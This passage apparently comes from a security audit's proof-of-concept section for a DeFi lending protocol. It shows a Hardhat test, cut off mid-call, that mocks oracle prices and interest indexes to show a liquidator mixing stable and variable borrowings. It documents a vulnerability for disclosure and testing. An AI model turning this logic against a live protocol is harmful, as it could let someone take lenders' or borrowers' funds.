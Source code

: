 ## Proof of concept
## Proof of Concept
To demonstrate this vulnerability, the following test can be added under the ```"Liquidate"``` section in ```LoanManager.test.ts``` and run using ```npm test```. The comments in the code are crucial for understanding the logic and transaction flow:
```javascript
it.only("Should let a liquidated variable borrowing user to be able to liquidate another stable borrowing user and mix his borrowings ", async () => {
      const {
        hub,
        loanManager,
        oracleManager,
        pools,
        loanId: violatorLoanId,
        accountId: violatorAccountId,
        loanTypeId,
        borrowAmount,
        usdcVariableInterestIndex: oldVariableInterestIndex,
      } = await loadFixture(depositEtherAndVariableBorrowUSDCFixture);

      // Config the liquidator.
      const liquidatorLoanId = getRandomBytes(BYTES32_LENGTH);
      const liquidatorAccountId = getAccountIdBytes("LIQUIDATOR_ACCOUNT_ID");
      const liquidatorLoanName = getRandomBytes(BYTES32_LENGTH);
      await loanManager.connect(hub).createUserLoan(liquidatorLoanId, liquidatorAccountId, loanTypeId, liquidatorLoanName);
      const liquidatorDepositAmount = BigInt(10000e6); // 10,000 USDC
      const liquidatorDepositFAmount = liquidatorDepositAmount;
      const liquidatorDepositInterestIndex = BigInt(1e18);
      const usdcPrice = BigInt(1e18);
      await pools.USDC.pool.setDepositPoolParams({fAmount: liquidatorDepositFAmount,depositInterestIndex: liquidatorDepositInterestIndex,priceFeed: { price: usdcPrice, decimals: pools.USDC.tokenDecimals },});
      await loanManager.connect(hub).deposit(liquidatorLoanId, liquidatorAccountId, pools.USDC.poolId, liquidatorDepositAmount);

      // Prepare liquidation
      const ethNodeOutputData = getNodeOutputData(BigInt(1100e18)); // ETH Price at $1,100
      await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData);

      // Interest calculations
      const variableInterestIndex = BigInt(1.5e18); // Variable index is 1,5 so to do it more easy to understand.
      const stableInterestRate = BigInt(0.1e18);
      await pools.USDC.pool.setBorrowPoolParams({ variableInterestIndex, stableInterestRate });
      await pools.USDC.pool.setUpdatedVariableBorrowInterestIndex(variableInterestIndex);
      const borrowBalance = calcBorrowBalance(borrowAmount, variableInterestIndex, oldVariableInterestIndex);

      console.log("borrowBalance", borrowBalance.toString()); // Borrow balance is around 1400 USDC.
      console.log("borrowAmount", borrowAmount.toString()); // Borrow amount is 1000 USDC.

      const seizeCollateralAmount = BigInt(1e18); // 1 ETH = $1,100 = 1100 USDC
      const repayAmount = convToRepayBorrowAmount(
        seizeCollateralAmount,
        ethNodeOutputData.price,
        pools.ETH.tokenDecimals,
        usdcPrice,
        pools.USDC.tokenDecimals,
        BigInt(0.04e4)
```